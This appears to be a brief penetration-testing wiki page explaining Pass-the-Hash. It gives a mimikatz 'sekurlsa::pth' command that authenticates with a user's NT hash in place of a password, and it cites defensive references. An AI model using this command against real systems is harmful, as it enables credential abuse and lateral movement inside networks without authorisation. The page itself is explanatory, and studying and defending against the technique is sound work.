 ```yaml
---
label: Pass The Hash
---
```


# Pass the Hash

Pass-The-Hash is a general term used to describe a situation where we can provide a user's NT hash instead of a plaintext password to gain privileges. It is not tied to any specific service.

```powershell
# PtH and run cmd.exe with new privileges
mimikatz.exe
> sekurlsa::pth /user:<USER_NAME> /ntlm:<USER_NT_HASH> /domain:<DOMAIN>
```

## Hash Spraying

## References

* [HackingArticles.in, _Lateral Movement: Pass the Hash attack_](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
* [Microsoft, _Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft Techniques_ (PDF)](https://download.microsoft.com/download/7/7/a/77abc5bd-8320-41af-863c-6ecfb10cb4b9/mitigating%20pass-the-hash%20(pth)%20attacks%20and%20other%20credential%20theft%20techniques_english.pdf)
